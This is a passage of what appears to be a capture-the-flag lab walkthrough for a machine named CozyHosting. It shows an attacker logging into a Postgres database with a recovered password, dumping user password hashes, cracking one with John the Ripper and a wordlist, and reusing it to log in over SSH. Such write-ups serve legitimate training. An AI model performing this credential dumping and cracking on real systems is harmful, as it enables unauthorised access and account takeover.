 Now, we will switch to the cozyhosting database

```
postgres=# \c cozyhosting
\c cozyhosting
Password: Vg&nvzAQ7XxR

SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
```

Listing the tables, we are able to find 2 tables, hosts and users

```
cozyhosting=# \dt
\dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

Viewing the users tables, we are able to obtain 2 hashes

```
select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Next, we will then use john to crack the hashes

```
┌──(kali㉿kali)-[~/Desktop/cozyhosting]
└─$ john --wordlist=rockyou.txt hash                                 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:24 0.01% (ETA: 2023-09-11 15:08) 0g/s 83.06p/s 167.6c/s 167.6C/s harris..florence
manchesterunited (?)
```

Using the password we can then obtain access into the SSH server as josh

```
┌──(kali㉿kali)-[~/Desktop/cozyhosting]
└─$ ssh josh@10.10.11.230
josh@10.10.11.230's password: 
...

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41
josh@cozyhosting:~$ 
```
